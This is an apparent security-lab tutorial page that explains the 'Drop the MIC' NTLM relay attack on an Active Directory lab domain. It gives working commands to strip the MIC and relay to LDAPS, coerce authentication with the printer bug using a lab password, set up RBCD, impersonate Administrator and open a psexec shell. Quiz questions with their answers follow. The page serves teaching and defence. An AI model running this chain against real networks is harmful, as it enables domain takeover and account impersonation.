

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/DropTheMIC/index.html · generator: mkdocs

#Drop the MIC attack

This attack targets the NTLM protocol. It also relays authentication from a legitimate client to a legitimate server, but this time, the messages no longer target the SMB service, but the LDAPS service. LDAPS can be used to alter the AD database and doesn't enforce singing by default on DCs, contrary to the SMB service. The attacker hijacks NTLM authentication messages being sent to access an SMB service, and alters them to access LDAPS instead. In order to do so, they must remove the Message Integrity Code (MIC) from NTLM messages. Hence the attack's name.


This attack also makes use of two different terminals, just like the NTLM relay attack.
This attack will relay authentication from the MEMBER machine to the CAPTAIN machine, and use it to create a new computer account, as well as grant this new computer account RBCD privileges to MEMBER, which means that the new computer account can impersonate any user to access any service provided by the MEMBER machine, essentially compromising it.

First, in one terminal run:
```
ntlmrelayx.py -t ldaps://captain.north.altair.local --remove-mic --add-computer removemiccomputer --delegate-access 
```

This script will relay NTLM messages that are originally meant for an SMB service to the LDAPS service from the MEMBER machine to the CAPTAIN machine, and automatically create the new computer account and grant it RBCD privileges in MEMBER.

In a second terminal, run:
```
#in the krbrelayx dir
python3 printerbug.py NORTH/skyler.white:Password123@192.168.122.5 192.168.122.2 
```
This script uses the printer bug in order to coerce authentication from the MEMBER machine to the attacker's machine, allowing the attacker to relay MEMBER's NTLM messages to LDAPS in the DC.

Take note of the newly created computer account on the ntlmrelayx script output. You can now use this account to impersonate the Administrator to a MEMBER machine service, as per RBCD normal behavior:

```
getST.py -dc-ip 192.168.122.10 -impersonate Administrator -spn cifs/member.north.altair.local north/removemiccomputer\$:'<passwordfromntlmscript>'
#set the KRB5CCNAME environment variable to the new ticket
export KRB5CCNAME=/your/current/directory/Administrator.ccache
#now you can access the SMB service as the Administrator user on MEMBER
psexec.py -k -no-pass member.north.altair.local
whoami
```

!!! question
    What's the purpose of targetting the LDAPS service instead of the SMB service in this attack?
??? success "Answer"
    The LDAPS does not enforce signing by default, in contrary to SMB. Removing the MIC while using a service that enforces signing won't work. That's why the LDAPS service is targetted in this attack.
!!! question
    Why can we configure the newly computer account with RBCD privileges against the MEMBER machine?
??? success "Answer"
    We can configure RBCD in this manner since we're using an authenticated MEMBER connection, which can configure RBCD related to itself (Resource-Based Constrained Delegation).
